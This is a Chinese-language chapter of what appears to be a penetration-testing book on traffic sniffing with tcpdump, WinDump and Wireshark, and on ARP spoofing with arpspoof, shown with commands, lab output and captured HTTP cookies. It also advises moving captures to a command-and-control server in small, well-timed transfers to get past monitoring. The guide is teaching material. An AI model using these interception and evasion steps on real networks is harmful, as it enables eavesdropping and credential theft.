## 5 流量嗅探与欺骗

理解网络上的流量流向不仅能让你更好地了解网络内部正在发生的事情，还能为渗透测试期间你可能想要攻击的目标提供线索。流量嗅探器允许我们监控或捕获网络上的流量，以查看网络中主机之间发生了什么。它们的工作方式有几种，取决于你是只查看流量，还是想要查看并在流量到达最终目的地之前对其进行更改。这就是欺骗和**中间人攻击**（**MiTM**）的核心思想，我们将在本章中讨论。

本章将讨论以下主题：

- 流量嗅探工具和技术
- Tcpdump 和过滤器
- 理解和执行欺骗攻击
- MiTM 攻击

### 流量嗅探工具和技术

能够看到网络上发生的事情不仅对于理解流量模式和流向很重要，而且对于发现问题所在甚至了解可能成为目标的地方也很重要。例如，如果我作为渗透测试人员在网络上嗅探流量，并注意到有加密流量流向某处，我可能会尝试了解更多正在发生的事情。

我可以尝试对该连接进行 MiTM，以尝试收集信息来验证用户是否注意网站是否安全，或者我可能只是想看看网络是否甚至允许这样做。另一个选择是我可以尝试劫持会话。显然，作为渗透测试人员，我只想知道我能做什么和不能做什么，以便提醒利益相关方需要改进的地方。但作为黑客，我不会这么友善。

市面上有很多嗅探器，你应该找到自己最喜欢的并坚持使用它。然而，在谈论嗅探器选项之前，让我先谈谈不同的嗅探类型。

总的来说，有两种不同的流量嗅探方法：被动和主动。最常见的使用是被动技术。在这种情况下，你只是简单地查看流量。这可以用于故障排除、网络分析，或在道德层面上只是了解流量。非道德地，你可以使用这种嗅探方式来收集凭证或窃取信息或密码，仅举几例。重要的是你只是在查看而不是触碰。这包括使用诸如 Wireshark、tcpdump 和 WinDump 等程序进行 ARP、TCP 和 UDP 等协议分析。另一方面，如果你查看一侧进入的流量并在它重新进入线路之前更改它，这被称为主动方法。通常，主动嗅探不会带来好事。这包括 SSLStrip 和 dsniff。它们会更改线路上传输的信息以完成诸如 MiTM 攻击等任务。在本章中，我将探讨这两种情况，以便展示我们如何使用工具进行渗透测试的各种方式。

在开始嗅探之前，请确保你对将要嗅探和欺骗的协议有详细的了解。这很重要，因为如果你不了解协议的内部细节，就无法理解自己在做什么或为什么要做。例如，你应该至少对 ARP、HTTP、TCP 和 UDP 有深入的了解，因为大多数时候你会使用这些协议。然而，如果你知道自己正在查看特定协议，请尽职调查并研究该协议，以便尽可能多地了解它。

### 嗅探工具

有许多嗅探工具可供使用。你使用的工具很多取决于你所在的平台以及你最终想要做什么。重要的是找到你最喜欢使用的工具并坚持使用。

将数据包发送到你的嗅探器可以通过几种不同的方式实现。一种方法是直接插入已设置为某种 SPAN 端口的交换机端口。通过这种配置，你将在此 SPAN 端口上看到与你设置的配置匹配的流量。也许你有某些接口被 SPAN 到该端口或特定的 VLAN；无论你如何配置；你将在该端口上看到的流量就是这样。这种方法的优点是，只要你正确配置 SPAN 端口以满足你的需求，你就能看到任何你想要的流量。

另一个选择是基于你从本地网络连接看到的流量运行嗅探器。这是一种简单的方法，因为一旦你有活动连接就可以开始嗅探流量。唯一的缺点是你只能看到该特定第2层网络上的内容，以及源自或目标为你的主机的流量（除非是广播和 ARP 消息等）。当然，有办法改变这种行为并使用 ARP 欺骗和欺骗等技术监听同一第2层网络上的其他主机，但我稍后会介绍。

以下部分介绍了我实验室中经常使用的一些工具，具体取决于我想要如何进行嗅探。

### Tcpdump

Tcpdump 是我有史以来最喜欢的网络实用工具。它是一个基于 CLI 的数据包捕获实用工具，而且非常强大。Tcpdump 允许我们查看任何流量，无论是实时流量还是预先捕获的流量，并对从第1层到第7层的完整协议栈进行深度分析。你可以用 tcpdump 看到关于数据包的任何你想知道的信息。

作为一名安全和网络人员，每当出现问题时，网络总是被责怪。我几乎每次都会使用 tcpdump 来证明网络是无辜的。记住，网络从不撒谎，而 tcpdump 可以证明它的清白。

使用 tcpdump 时你会首先注意到的就是它有很多选项：

```
Usage: tcpdump [-aAbdDefhHIJKlLnNOpqRStUuvxX#] [ -B size ] [ -c count ]
    [ -C file_size ] [ -E algo:secret ] [ -F file ] [ -G seconds ]
[ -i interface ] [ -j tstamp type ] [ -M secret ] [ --number ]
[ -Q in|out|inout ]
[ -r file ] [ -s snaplen ] [ --time-stamp-precision precision ]
[ --immediate-mode ] [ -T type ] [ --version ] [ -V file ]
[ -w file ] [ -W filecount ] [ -y datalinktype ] [ -z command ]
[ -Z user ] [ expression ]
```

关于 tcpdump 你能学到的最重要的一件事是如何使用过滤器。如果没有它们，你的屏幕很可能会滚动得如此之快，以至于你无法辨认任何内容。让我介绍一下我在渗透测试期间经常使用的一些过滤器。


我可以使用表达式按单个主机 IP 或主机名进行过滤：

```
tcpdump host 192.168.34.56
```

或：

```
tcpdump host www.thisismydomain.com
```

如果我们只想查找特定方向的流量，也可以指定 SRC 和 DST 主机：

```
tcpdump src 192.168.13.34
```

或：

```
tcpdump 'src 192.168.13.242 and dst 192.168.31.150'
```


注意 AND 这个词的使用。如果要组合表达式，可以使用这些典型关键字：AND、OR 和 NOT。您也可以使用括号进行运算顺序。我在组合表达式时也倾向于使用单引号，尽管并非总是必需的。这取决于表达式的复杂程度。然而，这是一个值得养成的良好习惯。

我还可以指定整个网络。如果我不太确定要查看哪些主机或哪些主机是主要通信方，这非常方便。这是通过 CIDR 记法完成的。

```
tcpdump net 192.168.30.0/24
```

您也可以使用 /32 指定此主机：

```
tcpdump net 192.168.33.3/32
```

指定端口或协议非常重要。大多数情况下，您是在主机上查找非常具体的某样东西，或查找流量的特定端口。在这种情况下，您将使用如下过滤器：

```
tcpdump tcp
tcpdump port 22
tcpdump dst port 22
tcpdump 'tcp and dst port 22'
tcpdump 'tcp and dst port 22 and src port 53029'
```

现在，端口、协议和 IP 地址都已了解，让我们将它们全部组合成一个单一过滤器，以便更具体地进行过滤。此过滤器将查找 192.168.1.0/24 网络中 TCP 端口 22 的 SRC：

```
tcpdump 'tcp and src port 22 and net 192.168.1.0/24'
```

有时您可能不想查看流量，只是想记录下来以便稍后查看或转储到您的 C&C 服务器，该服务器我们在第 3 章《设置和维护命令与控制服务器》中进行了设置。如果是这种情况，您可以使用 -w 开关并指定文件名。我倾向于使用 .pcap 扩展名，但 .cap 和 .dmp 也比较常见：

```
tcpdump -w SSHcap.pcap 'tcp and dst port 22 and src port 53029
net 192.168.1.0/24'
```

由于我们将流量转储到文件中以便以后读取，肯定需要一种读取这些预先捕获文件的方法。您可以使用 -r 开关后跟文件名将其读入 tcpdump：

```
tcpdump -r SSHcap.pcap
```

以下是我在我的网络上运行 tcpdump 的示例。我倾向于使用 -n 标志，因为我不想解析 IP 或端口：



## WinDump

WinDump 是 Windows 版的 tcpdump。我认为它是任何 Microsoft 环境的必备工具。有了 WinDump，您就可以直接在 Windows 机器上分析数据包，使用与您在开源端使用 tcpdump 熟悉的类似过滤器和语法。您甚至可以将 WinDump 捕获到文件中并通过 tcpdump 读取。如果您需要直接在 Windows 机器上捕获流量，此实用程序非常方便。

运行 WinDump 时，需要确保已安装 WinPcap。如果您没有 WinPcap，可以从 WinDump 获取（ http://www.windump.com ）。

WinDump 命令语法的输出如下：

```
C:\Users\jason\Downloads>windump -?
windump version 3.9.5, based on tcpdump version 3.9.5
WinPcap version 4.1.3 <packet.dll version 4.1.0.2980>, based on libpcap version 1.0 branch 1_0_rel0b <20091008>
Usage: windump [-aAdDefFlnNOpqRSStuUvxX] [ -B size ] [ -c count ] [ -C file_size ]
        -E algo::secret ] [ -F file ] [ -i interface ] [ -M secret ]
        [ -r file ] [ -s snaplen ] [ -T type ] [ -w file ]
        [ -W filecount ] [ -y datalinktype ] [ -Z user ]
        [ expression ]
```

以下屏幕截图显示了从 CLI 运行 WinDump 的示例，其过滤器与 tcpdump 非常相似：

```
C:\Users\jason\Downloads>windump -n not port 3389
windump: listening on \Device\NPF_{B04619C4-77A8-48B9-861C-5013A13CF992}
15:39:39.752131 802.1d unknown version
15:39:40.033668 IP 192.168.1.2 > 224.0.0.22: igmp v3 report, 1 group record(s)
15:39:40.035245 IP6 FE80::9C2D:65D4:B8FB:4342 > FF02::16: HBH ICMP6, multicast listener report v2, 1 group record(s), length 28
15:39:40.035348 IP 192.168.1.2 > 224.0.0.22: igmp v3 report, 1 group record(s)
15:39:40.164943 IP6 FE80::9C2D:65D4:B8FB:4342 > FF02::16: HBH ICMP6, multicast listener report v2, 1 group record(s), length 28
15:39:40.165147 IP 192.168.1.2 > 224.0.0.22: igmp v3 report, 1 group record(s)
15:39:40.283228 IP6 FE80::9C2D:65D4:B8FB:4342.51522 > FF02::1:3.5355: UDP, length 22
15:39:40.283349 IP 192.168.1.2.51522 > 224.0.0.252.5355: UDP, length 22
15:39:40.284470 IP 192.168.1.2 > 224.0.0.22: igmp v3 report, 2 group record(s)
15:39:40.284592 IP6 FE80::9C2D:65D4:B8FB:4342 > FF02::16: HBH ICMP6, multicast listener report v2, 1 group record(s), length 28
15:39:40.297034 IP 192.168.1.2.52647 > 239.255.255.250.1900: UDP, length 133
15:39:40.309121 IP 192.168.1.2.62647 > 239.255.255.250.3702: UDP, length 1079
15:39:40.309267 IP6 FE80::9C2D:65D4:B8FB:4342.62648 > FF02::C.3702: UDP, length 1095
15:39:40.432504 IP 192.168.1.2.62647 > 239.255.255.250.3702: UDP, length 1079
15:39:40.441845 IP6 FE80::9C2D:65D4:B8FB:4342.62648 > FF02::C.3702: UDP, length 1095
15:39:40.701386 IP6 FE80::9C2D:65D4:B8FB:4342.51522 > FF02::1:3.5355: UDP, length 22
15:39:40.701492 IP 192.168.1.2.51522 > 224.0.0.252.5355: UDP, length 22
17 packets captured
38 packets received by filter
0 packets dropped by kernel
```

在此示例中，我将捕获写入 win8.pcap 文件。然后，我将此文件移动到 OS X 机器上，并使用 tcpdump 的原生版本读取同一文件。这展示了不同平台之间的兼容性。

这里，我将流量写入 Windows 机器上的文件：

```
C:\Users\jason\Downloads>windump -w Win8.pcap
windump: listening on \Device\NPF_{B04619C4-77A8-48B9-861C-5013A13CF992}
137 packets captured
145 packets received by filter
0 packets dropped by kernel
```

最后，这里我们在将文件传输过来后，能够在我的 OS X 机器上读取相同的文件：

```
JABELTRA-M-V085:~ jabeltra$ tcpdump -n -r win8.pcap
reading from file win8.pcap, link-type EN10MB (Ethernet)
19:50:26.801396 IP 192.168.1.2.3389 > 192.168.33.3.64496: Flags [P.], seq 3815094950:3815094981, ack 4159911605, win 63652, options [nop,nop,TS val 4468774 ecr 1869191882], length 31
19:50:26.801671 IP 192.168.1.2.3389 > 192.168.33.3.64496: Flags [P.], seq 31:1955, ack 1, win 63652, options [nop,nop,TS val 4468774 ecr 1869191882], length 1924
19:50:26.806182 IP 192.168.33.3.64496 > 192.168.1.2.3389: Flags [.], ack 31, win 4095, options [nop,nop,TS val 1869191928 ack 4468774], length 0
19:50:26.806575 IP 192.168.33.3.64496 > 192.168.1.2.3389: Flags [.], ack 1955, win 4034, options [nop,nop,TS val 1869191928 ecr 4468774], length 0
```

## Wireshark

Wireshark 是您可用于查看网络上发生情况的最重要工具之一。它允许您查看有关此数据包的每一条您可能想要看到的信息。它从物理层开始，然后向上进行。Wireshark 最初名为 Ethereal，后来改名为 Wireshark。

Wireshark 与 tcpdump 非常相似，但围绕它有一个图形界面，并且具有以下一些附加功能：

- 可以更改和自定义的彩色编码数据包类型
- 使用插件查看新协议的能力
- 也可以捕获语音 over IP 呼叫
- 可以点击数据包并跟随流的能力

以下是 Wireshark 启动时的屏幕截图。您可以直接在过滤器框中输入捕获过滤器。其语法与 tcpdump 非常不同，但有一个自动填充功能可以帮助您构建过滤器。初始页面上的另一个非常有用的功能是它会显示可用接口以及它在这些接口上看到的图形流量。在以下示例中，只有 Ethernet0 可用：



进入捕获屏幕后，您可以看到彩色编码如何使阅读变得更容易。在这里，我可以看到所有 RST 数据包都被着色为红色。我还可以看到 ICMPv6 数据包为粉红色，而 IGMPv3 数据包为黄色。这是一种快速读取是否有异常发生的好方法：




如果我突出显示一个数据包并查看数据包详细信息窗格，我可以看到该数据包的所有详细信息。在下面的屏幕截图中，我展开了 IP 和 TCP 部分，以显示 Wireshark 中可见的信息类型：



如果我突出显示一个数据包，并且只想查看它所属的流，我可以选择 **跟随** 流，然后选择 **TCP 流** 来显示完整的对话：



点击跟随 TCP 流后，我可以在一个窗格中看到整个对话。由于这是一次 HTTP 对话，我可以看到所有的 GET 请求以及 HTTP 响应。这对于故障排除和收集有关服务器的信息也非常有用。接下来，我们可以看到可以根据 HTTP 响应确定操作系统厂商以及 Web 服务器平台：



捕获文件时另一个非常实用的选项是自动文件轮转。当与我们的 C&C 服务器结合使用时，这可能非常有用。您可以运行捕获，并使其每隔几秒或文件达到一定大小后创建新文件。这样，您就可以看到想要看到的一切，同时仍能将文件谨慎地传输到 C&C 服务器。请记住，为了尝试规避流量监控/异常系统，您需要确保文件传输量小且在组织的典型繁忙时段内：



## 理解欺骗攻击

当无法物理上在线路中间时，如何在对话之间插入的最佳方式是什么？当然是通过欺骗攻击。欺骗攻击是中间人攻击，通常称为 man-in-the-middle，或在对话之间进行攻击的基本要求。欺骗攻击在其最简单的形式中，就是冒充其他事物，以便进入该对话的中间，或者如果冒充默认网关，则进入所有对话。

为完成此任务，我们将执行 ARP 欺骗。这将使我们能够告诉主机将其流量发送给我们作为默认网关，并告诉默认网关将流量发送给该主机发送给我们。这样，我们就可以将自己置于对话中间。一旦我们处于对话中间，我们不仅可以了解有关对话的信息，还可以操纵各种响应以从任一侧获取信息或发送恶意软件或其他类型的恶意程序。

下图以最简单的形式显示了 MiTM 攻击：



## ARP 欺骗

现在我们对欺骗攻击有了了解，以及它们为何有用，让我们开始在一些主机对话之间插入。我将使用 ARP 欺骗来实现这一点。使用 `arpspoof` 命令，我可以用我的 MAC 地址毒害两边的 ARP 缓存，从而强制更改流量流。

要使用 Arpspoof，您需要确保它已安装。Arpspoof 是 dsniff 家族的一部分，因此如果您安装 dsniff（`apt-get install dsniff`），您也会获得 arpspoof。然而，在一切正常工作之前，您需要确保计划内联使用的设备上已启用 IP 转发。这是因为默认情况下，系统不会将该数据包转发回线路。为此，我只需通过 sysctl 进行更改：

```bash
sysctl -w net.ipv4.ip_forward=1
```



我总是确保验证此更改是否生效。过去我曾因忘记启用它而受到惩罚，然后花费太多时间进行故障排除。快速而粗略的检查方法就是验证当前的 sysctl 设置：

```
root@kali:~# sysctl -a list | grep net.ipv4.ip_forward
net.ipv4.ip_forward = 1
```



现在一切就绪，让我们玩得开心一些，将自己欺骗到一些流量流中。在我的实验室示例中，我将尝试拦截我的终端用户 192.168.33.4 与其互联网对话之间的通信。我还将在新放置的内联主机上运行 tcpdump，以确保我确实处于对话中，因为这对于我们接下来计划做的事情至关重要。

我需要打开多个终端来完成此任务。我将使用第一个终端，告诉默认网关（192.168.33.1）将发往终端主机的流量发送给我：



在下一个窗口中，我需要告诉终端主机在发往默认网关时将其流量发送到我的内部主机：

```
root@pi-kali:~# arpspoof -i eth0 -t 192.168.33.3 192.168.33.1
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at b8:27:eb:6a:35:5f
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at b8:27:eb:6a:35:5f
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at b8:27:eb:6a:35:5f
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at b8:27:eb:6a:35:5f
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at b8:27:eb:6a:35:5f
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at b8:27:eb:6a:35:5f
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at b8:27:eb:6a:35:5f
^CCleaning up and re-arping targets...
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at e0:55:3d:77:4:b5
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at e0:55:3d:77:4:b5
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at e0:55:3d:77:4:b5
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at e0:55:3d:77:4:b5
b8:27:eb:6a:35:5f 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at e0:55:3d:77:4:b5
```

最后，在第三个窗口中，我将针对端口 80 运行 tcpdump，以验证我是否看到端口 80 上的双向流量：

```
root@pi-kali:~# tcpdump -n port 80
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
02:00:19.403762 IP 216.58.217.170.80 > 192.168.33.3.54481 Flags [.], ack 1268562255, win 341, options [nop,nop,TS val 3435422080 ecr 10383409495], length 0
02:00:19.403998 IP 216.58.217.170.80 > 192.168.33.3.54481 Flags [.], ack 1, win 341, options [nop,nop,TS val 3435422080 ecr 10383409495], length 0
02:00:22.211611 IP 207.172.61.182.80 > 192.168.33.3.54458 Flags [.], ack 1770686182, win 235, options [nop,nop,TS val 1609458199 ecr 1038968932], length 0
02:00:22.211851 IP 207.172.61.182.80 > 192.168.33.3.54458 Flags [.], ack 1, win 235, options [nop,nop,TS val 1609458199 ecr 1038968932], length 0
02:00:22.212130 IP 207.172.61.182.80 > 192.168.33.3.54455 Flags [.], ack 1855465261, win 235, options [nop,nop,TS val 1609458199 ecr 1038968686], length 0
02:00:22.212697 IP 207.172.61.182.80 > 192.168.33.3.54457 Flags [.], ack 1, win 235, options [nop,nop,TS val 1609458199 ecr 1038968686], length 0
02:00:22.212937 IP 207.172.61.182.80 > 192.168.33.3.54457 Flags [.], ack 99327793, win 235, options [nop,nop,TS val 1609458203 ecr 1038968682], length 0
02:00:22.215512 IP 207.172.61.182.80 > 192.168.33.3.54456 Flags [.], ack 1, win 235, options [nop,nop,TS val 1609458203 ecr 1038968682], length 0
02:00:31.781698 IP 192.168.33.3.54485 > 54.240.190.145.80: Flags [F.], seq 197637882, ack 3145427091, win 4096, options [nop,nop,TS val 1809131351 ecr 1480
040648], length 0
02:00:31.702626 IP 192.168.33.3.54485 > 54.240.190.145.80: Flags [F.], seq 0, ack 1, win 4096, options [nop,nop,TS val 1039131351 ecr 1402040648], length 0
02:00:31.702373 IP 192.168.33.3.54452 > 54.192.55.41.80: Flags [F.], seq 2974505158, ack 584427220, win 4096, options [nop,nop,TS val 1039131351 ecr 140204
0800], length 0
02:00:31.702628 IP 192.168.33.3.54452 > 54.192.55.41.80: Flags [F.], seq 0, ack 1, win 4096, options [nop,nop,TS val 1039131351 ecr 1402040808], length 0
02:00:31.702375 IP 192.168.33.3.54475 > 54.192.55.134.80: Flags [F.], seq 2373086167, ack 3816905065, win 4096, options [nop,nop,TS val 1039131351 ecr 1462
996288], length 0
02:00:31.703092 IP 192.168.33.3.54475 > 54.192.55.134.80: Flags [F.], seq 0, ack 1, win 4096, options [nop,nop,TS val 1039131351 ecr 1462966288], length 0
02:00:31.702377 IP 192.168.33.3.54474 > 54.192.55.134.80: Flags [F.], seq 3910605424, ack 3804258782, win 4096, options [nop,nop,TS val 1039131351 ecr 1398
438144], length 0
```


如上图所示，我已成功将我的内部主机放置在该对话中。我还可以将该捕获转储到文件中，并在 Wireshark 中通过跟踪 TCP 流来验证连接：

```
HTTP/1.1 304 Not Modified
Content-Type: image/png
Last-Modified: Tue, 15 Nov 2016 16:47:40 GMT
Cache-Control: max-age=78870
Expires: Thu, 09 Feb 2017 23:57:51 GMT
Date: Thu, 09 Feb 2017 02:03:21 GMT
Connection: keep-alive

GET /newimages/large/nfew.png HTTP/1.1
Host: forecast.weather.gov
Connection: keep-alive
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: image/webp,image/*,*/*;q=0.8
Referer: http://www.forecast.weather.gov/MapClick.php?
lat=40.60688295038892&lon=-75.50721787340535
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: __utma=132404377.747112102.1480382093.1486552473.1486587909.8;
__utmc=132404377; __utmz=132404377.1486587909.8.utmcsr=weather.gov|utmccn=(referral)|utmcmd=referral|utmcct=/ctp/; QSI_HistorySite=http%3A%2F%2Fforecast.weather.gov%3FMapClick.php%3F%26x%3D76%26y%3D100%26site%3Dphi%26zmx%3D%26zmy%3D%26map_x%3D76%26map_y%3D100%23.Wjr9mBjrJZo-14865524731.46%7Chttp%3A%2F%2Fforecast.weather.gov%2FMapClick.php%3F%26x%3D76%26y%3D100%26site%3Dphi%26zmx%3D%26zmy%3D%26map_x%3D76%26map_y
```

如你所见，进入对话中间是相当容易的。但如果你更喜欢基于 GUI 的 MiTM 工具怎么办？那么，让我们来看看 Ettercap。

## Ettercap

Ettercap 是一个很棒的工具，可用于使用 GUI 而非 CLI 执行 MiTM 攻击。Ettercap 具有基于 CLI 的实用程序，但 GUI 版本功能强大，是 arpspoof 的绝佳替代方案。

启动 Ettercap 时，首先需要决定要以哪种模式运行它。可用的选项是 Bridge sniffing 或 Unified sniffing。如果您是物理有线内联，则可以选择 **Bridge sniffing**。但如果不是，您应该选择 **Unified sniffing**，这就是我将选择的内容：

